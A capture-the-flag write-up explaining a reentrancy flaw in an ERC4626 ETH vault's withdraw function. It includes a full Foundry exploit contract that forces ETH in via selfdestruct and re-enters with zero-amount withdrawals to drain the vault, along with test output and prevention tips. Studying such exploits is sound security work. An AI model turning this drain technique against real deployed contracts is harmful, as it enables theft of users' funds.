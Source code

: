 ## Tool Used:
Foundry

## Github link:
* Private Repo: https://github.com/pratraut/hats_ctf_challenge2
* GitFront link to share above repo: https://gitfront.io/r/savi0ur/FXrAoJA8szhF/hats-ctf-challenge2-gitfront/

## Solution:

* Contract's `ERC4626ETH.sol` function - `withdraw` OR `redeem` is vulnerable to re-entrancy.
* Both function `withdraw` AND `redeem`, uses `_withdraw` as common function for performing withrawal/redeem operation.
* Inside `_withdraw` function, Its calculating excess ETH by (total_ETH_balance - total_supply_of_VCT_Token) and this excess ETH will be transfer to actual owner of the vault.
* Vulnerable code from `_withdraw` function:
```solidity
uint256 excessETH = totalAssets() - totalSupply();

_burn(_owner, amount);

Address.sendValue(receiver, amount);
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
As we can see, there are two ETH transfers - one with `amount` and other with `excessETH`. If we can somehow put `excessETH` transfer in call stack while doing reentrancy from the external call we got from first ETH transfer i.e., `amount` transfer, we can drain the vault. To get same `excessETH` value for each reentrancy call, we need `amount` to be equal to zero. So that first ETH transfer wont affect the `excessETH` value for each reentrancy call.
* To get an extra ETH in the contract, there are two ways. One way is using `deposit` OR `mint` function, which will mint `VCT` Token and also increasing ETH balance of a vault. Other way is by forcefully transferring ETH to a vault by self-destroying some dummy contract which is having some ETH. This will increase ETH balance in a vault but not VCT Token supply.
* To get some excess ETH to transfer back to owner of the vault, we need to use 2nd way i.e, forcefully transfering ETH by self-destroying contract.
* We can transfer 1 ETH forcefully. So now we have 2 ETH in a vault and 1 VCT Token(owned by original owner of vault).
* To make balance of vault to 0 ETH, so that we can capture the flag, we need to understand below snippet from `_withdraw` function.
```solidity
function _withdraw(
    address caller,
    address payable receiver,
    address _owner,
    uint256 amount
) internal virtual {
    if (caller != _owner) {
        _spendAllowance(_owner, caller, amount);
    }

    uint256 excessETH = totalAssets() - totalSupply();

    _burn(_owner, amount);

    Address.sendValue(receiver, amount);
    if (excessETH > 0) {
        Address.sendValue(payable(owner()), excessETH);
    }

    emit Withdraw(caller, receiver, _owner, amount, amount);
}
```
1. First check - `if (caller != _owner)`, since there is no way to get an approval from actual owner, we need to bypass this check by having `caller == _owner. Both vaules are attacker controlled.
2. `uint256 excessETH = totalAssets() - totalSupply();`- Since we have 2 ETH in vault and 1 VCT Token, we get `excessETH = 2 - 1 = 1`. So we get extra ETH to send it back to vault owner.
3. `_burn(_owner, amount);` - In order to bypass burn function, we need to pass `amount = 0` and `_owner = contract_address_of_attacker`. Hence `caller` should also be an address of the attacker's contract. This `_burn` function will not block us when `amount = 0`.
4. `Address.sendValue(receiver, amount);` - Since `amount` is zero, it will send 0 ETH to reciever, As `Address.sendValue()` function is performing `call` on provided address, we get an external call to receiver, which we can make use to re-enter the vault. So this `receiver` address must be attacker controlled contract address, which will let us use `fallback` function when transfering ETH using `call` function.
5. When `excessETH > 0`, it will transfer excessETH to vault owner, which is decrementing balance of vault in ETH.
```
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
6. After step 4, we will accept the 0 ETH transfer from vault in `fallback` function of attackers contract. Which will keep count on the number of times we need to call `withdraw` function to transfer all 2 ETH from contract. In this case it need to call one more time. Since during first `_withdraw` call, transfer of 1st ETH is stored inside call stack. In second call of `withdraw` from fallback function, it will store 2nd ETH transfer inside call stack. After this, no need to re-enter `withdraw` function. Once it will execute, all two transfer from call stack, all 2 ETH are sent to vault owner.
7. Once balance of vault is zero, we can call `captureTheFlag` function with attacker address.

**Note:** Here we have used 1 ETH for forcefull transfer to get `excessETH` of 1 ETH. But we can also use lower ETH (< 1 ETH), say `0.1 ETH`, so we get `0.1 ETH` as `excessETH`. Now we have to re-enter, `1 ETH / 0.1 ETH = 10` times.

## Prevention:
This vulnerability can be prevented by two ways:
* Using `ReentrancyGuard` for vulnerable function `withdraw` OR `redeem`.
* Having check for `assets` OR `shares` parameter of `withdraw` and `redeem` function respectively to be greater than zero.


## Exploit contract:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IVault {
    function withdraw(
        uint256 assets,
        address receiver,
        address owner
    ) external returns (uint256);
    function captureTheFlag(address newFlagHolder) external;
    function flagHolder() external returns (address);
}

contract SelfDestructable {
    constructor() public payable {}
    function destruct(address to) public {
        selfdestruct(payable(to));
    }
}

contract Attacker {
    IVault vault;
    uint cnt = 0;   // Counter to keep track of number of calls for reentrancy

    constructor(address victim) public payable {
        vault = IVault(victim);
    }

    // Fallback function to receive external call from vault contract
    fallback() external payable {
        if (msg.value == 0) {
            cnt += 1;
        }
        if (cnt <= 1) {
            vault.withdraw(0 ether, address(this), address(this));
        }
    }

    function attack(address flagHolder) public {
        // Forcefully transfer 1 ETH to vault by selfdestructing
        SelfDestructable d = new SelfDestructable{value: 1 ether}();
        d.destruct(address(vault));

        // Calling withdraw on vault with assets = 0 and receiver = attackers contract address
        vault.withdraw(0 ether, address(this), address(this));
        require(address(vault).balance == 0, "vault balance is not zero");
        // Capture the flag, at this moment vault balance is zero        
        vault.captureTheFlag(flagHolder);
        console.log("Flag Holder =", vault.flagHolder());
    }
}
contract CTFTest is Test {
    function setUp() public {       
    }

    function testExploit() public {
        // Vault Address
        address victim = 0x8043e6836416d13095567ac645be7C629715885c;
        // Loading vault with 1 ETH
        vm.deal(victim, 1 ether);
        // Attackers EOA Address
        address attacker_eoa = 0xF5BED21BD285CBe352737F686766cCC19BeE7acC;
        // Loading attackers EOA with 1 ETH
        vm.deal(attacker_eoa, 1 ether);
        // All calls will go from attackers EOA
        vm.startPrank(attacker_eoa);
        console.log("Balance before victim:      ", victim.balance);
        console.log("Balance before attacker EOA:", attacker_eoa.balance);
        // Deploying attacker's contract
        Attacker attacker = new Attacker{value: 1 ether}(victim);
        console.log("Balance before attacker:    ", address(attacker).balance);
        
        // Starting the attack
        attacker.attack(attacker_eoa);

        console.log("Balance after victim:      ", victim.balance);
        console.log("Balance after attacker EOA:", attacker_eoa.balance);
        console.log("Balance after attacker:    ", address(attacker).balance);

        // Check to see if attack is successfull
        assertEq(victim.balance, 0);
    }
}
```
### Command to run - fork environment: 
`forge test -c ./test/CTF.t.sol --fork-url https://ethereum-goerli-rpc.allthatnode.com -vvvv`
```console
Running 1 test for test/CTF.t.sol:CTFTest
[PASS] testExploit() (gas: 501031)
Logs:
  Balance before victim:       1000000000000000000
  Balance before attacker EOA: 1000000000000000000
  Balance before attacker:     1000000000000000000
  Flag Holder = 0xF5BED21BD285CBe352737F686766cCC19BeE7acC
  Balance after victim:       0
  Balance after attacker EOA: 0
  Balance after attacker:     0
```
